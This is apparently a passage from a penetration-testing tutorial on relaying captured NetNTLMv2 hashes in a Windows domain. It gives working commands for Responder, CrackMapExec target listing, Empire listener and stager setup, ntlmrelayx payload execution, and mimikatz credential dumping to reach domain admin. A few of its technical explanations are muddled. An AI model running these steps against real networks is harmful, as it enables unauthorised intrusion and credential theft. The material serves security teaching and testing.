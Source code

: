 ### Responder with NTLM relay attack

byt3bl33d3r is a very prominent figure in this area. He has written some good guides on this attack. Because [b3t3bl33d3r's guide](https://byt3bl33d3r.github.io/practical-guide-to-NTLM-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
) is good I'll try to make it short.

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user(s) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:
```
cme smb <CIDR> --gen-relay-list targets.txt
```
Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.


#### Responder

Now in the previous attack Responder had set up an HTTP and SMB server to act as a middleman. We now want to give our captured hashes to NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:
```
Responder -I eth0 -wrf
```
where eth0 is your interface. The -wrf is optional.


#### Empire

Now getting into Empire should take an hour or so to have it all memorized. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/), but a few commands are listed below:

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

#### NTLMrelay

Now perform the actual relaying using ntlmrelay from the Impacket library.


```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

#### Back to Empire

Now I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

- Trigger a few requests from the Windows machines using the `\\share\` trick.
- Restart all the tools.
- Reset Empire's database.
- Reboot the Windows machines.
- Execute the payload from cmd inside a Windows computer to check if it's actually working. (You should get an agent instantly).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire  agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA creds in plaintext. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

>Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running win 7 and 8 I'll get plain text plus NTLM hash. If you're running win 8.1 and above I only get the NTLM hash.

 What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT admins used the same local administrator account on all workstations

 To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

 Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.
